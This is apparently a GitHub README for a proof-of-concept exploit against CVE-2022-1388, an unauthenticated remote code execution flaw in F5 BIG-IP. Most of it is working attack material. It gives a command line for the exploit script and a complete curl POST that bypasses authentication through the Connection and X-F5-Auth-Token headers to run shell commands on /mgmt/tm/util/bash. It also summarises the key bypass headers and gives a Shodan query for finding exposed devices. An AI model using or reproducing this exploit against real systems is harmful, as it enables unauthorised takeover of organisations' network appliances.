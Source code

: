 # CVE-2022-1388
F5 BIG-IP Unauthenticated RCE   
&nbsp;

## Usage
```bash
python3 CVE-2022-1388.py -t 192.168.0.221 -c id
```
&nbsp;

## POC:
Use following POST request to execute ```id``` command.
```
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Connection: keep-alive, X-F5-Auth-Token' -H $'Authorization: Basic YWRtaW46' -H $'X-F5-Auth-Token: a' -H $'Content-Length: 39' \
    --data-binary $'{\"command\":\"run\",\"utilCmdArgs\":\"-c id\"}' \
    $'https://IP_HERE/mgmt/tm/util/bash'
 ```
 ![poc](./poc.png)
&nbsp;
Key Points:
```
URL: /mgmt/tm/util/bash
Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything
```
&nbsp;
## Shodan Query:
```
http.title:"BIG-IP&reg;-+Redirect" +"Server" 
```
&nbsp;

## Nuclei Template:
[CVE-2022-1388.yaml](./CVE-2022-1388.yaml)
</br>&nbsp;

## Credit
[AnnaViolet20](https://twitter.com/AnnaViolet20/status/1523564632140509184?s=20&t=dA5mPYazYHS6MuaFAaRvCw)'s tweet.</br>
[numanturle](https://github.com/numanturle/CVE-2022-1388)'s github page.
[jas502n](https://twitter.com/jas502n/status/1523611433938059265)' tweet.
[horizon3ai](https://github.com/horizon3ai/CVE-2022-1388)'s github page.
